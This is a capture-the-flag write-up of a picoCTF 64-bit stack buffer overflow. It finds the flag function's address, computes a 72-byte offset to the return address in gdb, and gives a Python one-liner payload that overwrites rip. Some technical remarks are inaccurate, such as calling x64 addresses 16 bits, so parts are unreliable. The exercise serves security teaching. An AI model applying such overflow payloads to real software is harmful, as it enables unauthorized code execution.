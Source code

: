 This is x64 bits, so the registers name are different `ebp` now is `rbp` and the `esp` is `rsp`, and ofcourse the address 
size is 16bits. 

It is the same as [OverFlow1](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/OverFlow1.MD), where we need to 
control the `rip` to jump to `flag` function. 

1- let's get flag address
```
$readelf -s vuln|grep flag
70: 0000000000400767   101 FUNC    GLOBAL DEFAULT   13 flag
```
`flag` function address is `0x0000000000400767`

2- Let's find the offset between the start of the `buf` and the `rip` (which is `$rbp+16`).

We will set break point just after gets function, then find where the 
```
$gdb vuln
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x00000000004007cc <+0>:     push   %rbp
   0x00000000004007cd <+1>:     mov    %rsp,%rbp
   0x00000000004007d0 <+4>:     sub    $0x40,%rsp
   0x00000000004007d4 <+8>:     lea    -0x40(%rbp),%rax
   0x00000000004007d8 <+12>:    mov    %rax,%rdi
   0x00000000004007db <+15>:    mov    $0x0,%eax
   0x00000000004007e0 <+20>:    callq  0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leaveq 
   0x00000000004007e7 <+27>:    retq   
End of assembler dump.
(gdb)b *0x00000000004007e5
(gdb)run 
AAAAAAAAAAAAAAAAA
(gdb) x/100x $rsp
0x7ffff4508970: 0x41414141      0x41414141      0x41414141      0x41414141
0x7ffff4508980: 0x00400041      0x00000000      0x4fe3cb62      0x00007fb7
...
<note AAA starts at 0x7ffff4508970 address, which is the begining of the buf>
(gdb)p/d $rbp-0x7ffff4508970
$3 = 64
```
We find the start of the buf (which in this case is the same as the stack pointer) `0x7ffff4508970`, then we compute the 
offset between buf and $rbp (64bytes) we need to add 64bits (i.e. 8bytes) to find the shift to the $rip. 

So the offset is 64bytes+8bytes = 72bytes

Note: $rip is one address above the $rbp.

3- let's now fill the offset with dump `A` and put the `flag` address on the `$rip` location.
```
python -c 'import struct; print("A"*72+struct.pack("<I",0x0000000000400768) )'|./vuln
```
For some reason I had to add one byte to the add of `flag` function.

I found that the address if we use `info add <fun name>` is different by one byte. So maybe we should use `info add` to get the address
```
(gdb)info add flag
0x0000000000400768
```
